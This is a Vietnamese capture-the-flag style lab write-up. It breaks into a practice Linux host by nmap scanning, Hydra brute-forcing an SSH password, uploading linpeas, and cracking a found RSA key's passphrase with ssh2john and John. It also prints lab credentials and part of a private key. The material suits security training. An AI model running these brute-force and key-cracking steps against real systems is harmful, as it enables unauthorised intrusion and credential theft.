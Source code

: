 ![image](https://github.com/user-attachments/assets/4c9afa81-1f7c-4457-a4fa-c55ddb615459)

# Comment

Bài lab này trong lúc rảnh thì mình mò được trên đây :). Độ khó basic kết hợp giữa một tí webapp và chủ yếu là leo quyền thông qua ssh

Các câu hỏi trong bài này liên quan đến từng bước từ recon đến exploit + post exploit nên mình sẽ trình bày luôn cách làm không chi tiết

# Analysis
## Nmap
```                                                                   
┌──(kali㉿kali)-[~]
└─$ nmap -sV -n 10.10.251.176
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-29 02:45 EDT
Nmap scan report for 10.10.251.176
Host is up (0.21s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open  http        Apache Tomcat 9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.28 seconds
```
## Gobuster
Tìm dir ẩn 
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u 10.10.251.176 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
## Enum4linux
Sử dụng tool này để check username 
```
┌──(kali㉿kali)-[~]
└─$ enum4linux -a 10.10.251.176
```
## Hydra
Sau khi có username sử dụng tool này để tìm password
```
┌──(kali㉿kali)-[~]
└─$ hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.104.96 ssh 
```
## SSH
Sau khi có credential ta sẽ login bằng ssh sau đó kiểm tra, tuy nhiên hầu như không có quyền để đọc các file cần thiết

## SCP
Việc sử dụng tool này để Upload và Download file của **linpeas.sh** để kiểm tra quyền để leo 
```
┌──(kali㉿kali)-[/usr/share/peass]
└─$ scp /usr/share/peass/linpeas/linpeas.sh jan@10.10.251.176:/home/jan
```
## Linpeas.sh
Sau khi download file thành công tiến hành chạy và ta thấy 

```
jan@basic2:/tmp$ ./linpeas.sh 

-rw-r--r-- 1 kay kay 3326 Apr 19  2018 /home/kay/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6ABA7DE35CDB65070B92C1F760E2FE75
IoNb/J0q2Pd56EZ23oAaJxLvhuSZ1crRr4ONGUAnKcRxg3+9vn6xcujpzUDuUtlZ
o9dyIEJB4wUZTueBPsmb487RdFVkTOVQrVHty1K2aLy2Lka2Cnfjz8Llv+FMadsN
XRvjw/HRiGcXPY8B7nsA1eiPYrPZHIH3QOFIYlSPMYv79RC65i6frkDSvxXzbdfX
AkAN+3T5FU49AEVKBJtZnLTEBw31mxjv0lLXAqIaX5QfeXMacIQOUWCHATlpVXmN
lG4BaG7cVXs1AmPieflx7uN4RuB9NZS4Zp0lplbCb4UEawX0Tt+VKd6kzh+Bk0aU
hWQJCdnb/U+dRasu3oxqyklKU2dPseU7rlvPAqa6y+ogK/woTbnTrkRngKqLQxMl
lIWZye4yrLETfc275hzVVYh6FkLgtOfaly0bMqGIrM+eWVoXOrZPBlv8iyNTDdDE
3jRjqbOGlPs01hAWKIRxUPaEr18lcZ+OlY00Vw2oNL2xKUgtQpV2jwH04yGdXbfJ
LYWlXxnJJpVMhKC6a75pe4ZVxfmMt0QcK4oKO1aRGMqLFNwaPxJYV6HauUoVExN7
bUpo+eLYVs5mo5tbpWDhi0NRfnGP1t6bn7Tvb77ACayGzHdLpIAqZmv/0hwRTnrb
RVhY1CUf7xGNmbmzYHzNEwMppE2i8mFSaVFCJEC3cDgn5TvQUXfh6CJJRVrhdxVy
<SNIP>
-----END RSA PRIVATE KEY-----
```

## SSH2JOHN
Sau khi có private key để login thông qua **ssh -i** ta tiến hành crack parse password

Copy nội dung file private key ở trên về máy `id_rsa`
```
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh2john id_rsa > id_rsa_hash.txt

┌──(kali㉿kali)-[~/Desktop]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)     
1g 0:00:00:00 DONE (2024-07-29 01:41) 20.00g/s 1655Kp/s 1655Kc/s 1655KC/s beeswax..bambino1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Tiến hành login vào user `kay`
```
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo ssh -i id_rsa kay@10.10.251.176

[sudo] password for kali: 
The authenticity of host '10.10.251.176 (10.10.251.176)' can't be established.
ED25519 key fingerprint is SHA256:XKjDkLKocbzjCch0Tpriw1PeLPuzDufTGZa4xMDA+o4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.251.176' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Mon Apr 23 16:04:07 2018 from 192.168.56.102
kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

# Results

![image](https://github.com/user-attachments/assets/40f4440a-af64-4dd6-8cd9-a4de651c26b2)

-------------------------**Hoàn thành bài lab!**-------------------------
